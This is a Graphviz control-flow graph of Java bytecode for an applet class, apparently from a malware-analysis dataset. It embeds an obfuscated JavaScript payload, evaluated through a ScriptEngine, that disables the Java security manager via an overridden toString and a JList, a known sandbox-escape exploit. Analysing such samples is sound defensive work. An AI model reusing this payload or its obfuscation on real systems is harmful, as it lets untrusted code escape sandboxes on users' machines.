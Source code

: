 digraph "" {
    "r0 := @this: Efira"
    "new java.lang.String"
    "r0 := @this: Efira"->"new java.lang.String";
    "dup1.r"
    "new java.lang.String"->"dup1.r";
    "specialinvoke <java.lang.String: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.String: void <init>()>";
    "store.r r28"
    "specialinvoke <java.lang.String: void <init>()>"->"store.r r28";
    "push 0"
    "store.r r28"->"push 0";
    "store.i $r2"
    "push 0"->"store.i $r2";
    "load.i $r2"
    "store.i $r2"->"load.i $r2";
    "push 1"
    "load.i $r2"->"push 1";
    "ifcmpge.i new Men"
    "push 1"->"ifcmpge.i new Men";
    "new java.lang.StringBuilder"
    "ifcmpge.i new Men"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r28"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "inc.i $r2 1"
    "store.r r28"->"inc.i $r2 1";
    "goto load.i $r2"
    "inc.i $r2 1"->"goto load.i $r2";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "new Men"
    "ifcmpge.i new Men"->"new Men";
    "store.r $r2"
    "new Men"->"store.r $r2";
    "load.r $r2"
    "store.r $r2"->"load.r $r2";
    "specialinvoke <Men: void <init>()>"
    "load.r $r2"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"push 0";
    "store.i i3"
    "push 0"->"store.i i3";
    "load.i i3"
    "store.i i3"->"load.i i3";
    "load.i i3"->"push 1";
    "ifcmpge.i load.r $r2"
    "push 1"->"ifcmpge.i load.r $r2";
    "ifcmpge.i load.r $r2"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "inc.i i3 1"
    "store.r r28"->"inc.i i3 1";
    "goto load.i i3"
    "inc.i i3 1"->"goto load.i i3";
    "ifcmpge.i load.r $r2"->"load.r $r2";
    "fieldget <Men: javax.script.ScriptEngine jjwd>"
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\"";
    "push \"9jdn0\""
    "push \"v9jdn0ar er9jdn0ro9jdn0r = ne9jdn0w Er9jdn0ro9jdn0r(\\\"9jdn0y er9jdn0ro9jdn0r\\\");th9jdn0is.to9jdn0Str9jdn0in9jdn0g = fu9jdn0nc9jdn0tion(){ ja9jdn0va.la9jdn0ng.Sy9jdn0ste9jdn0m.se9jdn0tSe9jdn0cur9jdn0ityMana9jdn0ger(nu9jdn0ll);app9jdn0let.st9jdn0ar9jdn0t();re9jdn0tu9jdn0rn \\\"ex9jdn0plo9jdn0it!\\\";};er9jdn0r9jdn0or.mess9jdn0ag9jdn0e = thi9jdn0s;\""->"push \"9jdn0\"";
    "push \"9jdn0\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"push 0";
    "push 0"->"store.i i3";
    "store.i i3"->"load.i i3";
    "load.i i3"->"push 1";
    "ifcmpge.i load.r r0"
    "push 1"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "store.r r28"->"inc.i i3 1";
    "inc.i i3 1"->"goto load.i i3";
    "load.r r0"
    "ifcmpge.i load.r r0"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r2";
    "load.r $r2"->"fieldget <Men: javax.script.ScriptEngine jjwd>";
    "push \"er9jdn0ro9jdn0r\""
    "fieldget <Men: javax.script.ScriptEngine jjwd>"->"push \"er9jdn0ro9jdn0r\"";
    "push \"er9jdn0ro9jdn0r\""->"push \"9jdn0\"";
    "push \"9jdn0\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Efira: javax.swing.JList entendes>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Efira: javax.swing.JList entendes>";
    "fieldput <Efira: javax.swing.JList entendes>"->"push 0";
    "push 0"->"store.i $r2";
    "store.i $r2"->"load.i $r2";
    "load.i $r2"->"push 1";
    "push 1"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "store.r r28"->"inc.i $r2 1";
    "inc.i $r2 1"->"goto load.i $r2";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Efira: javax.swing.JList entendes>"
    "load.r r0"->"fieldget <Efira: javax.swing.JList entendes>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"
    "fieldget <Efira: javax.swing.JList entendes>"->"virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
